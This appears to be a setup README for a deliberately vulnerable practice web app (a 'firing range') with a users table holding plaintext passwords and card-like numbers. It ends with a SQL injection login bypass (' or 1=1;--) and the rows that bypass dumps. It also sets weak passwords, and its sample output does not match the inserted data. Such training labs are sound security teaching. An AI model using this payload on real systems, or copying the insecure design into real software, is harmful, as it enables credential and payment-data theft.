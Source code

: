 # simplefiringrange
# for Ubuntu 16

apt install apache2 mysql-server php php-mysqli php-gd libapache2-mod-php git
# mytsql should pop uyp a big purple screen asking for root password do your thang make that password hello123 do it!
apt-get install phpmyadmin php-mbstring php-gettext
vi config.inc.php and adjust the password
systemctl restart apache2
<site>/phpmyadmin
#got gui? click and make a database named brett
#click and make a table named users

users structure:

username: varchar 24
password: varchar 24
email: varchar 24
creditcard: varchar 24

then click insert and put some users in. don't forget to click go!
you get stuff like this going on:

INSERT INTO `users` (`username`, `password`, `email`, `creditcard`) VALUES ('miyuki', 'hello', 'm@m.com', '3533497685860304');
INSERT INTO `users` (`username`, `password`, `email`, `creditcard`) VALUES ('admin', 'password', 'admin@app.com', '4024007183948511');
INSERT INTO `users` (`username`, `password`, `email`, `creditcard`) VALUES ('brett', 'Hell123!', 'brett@app.com', '349256618723322');

now yolu should be able to browser and get stuff going

try this: enter ' or 1=1;-- for the password

you want to get to this point:

sql: SELECT * FROM users WHERE username = 'brett' and password = '' or 1=1;-- '

Select returned 2 rows.

Email: admin@app.com,CreditCard: 4024007183948511,Password: password

Email: brett@app.com,CreditCard: 349256618723322,Password: Hello123! 






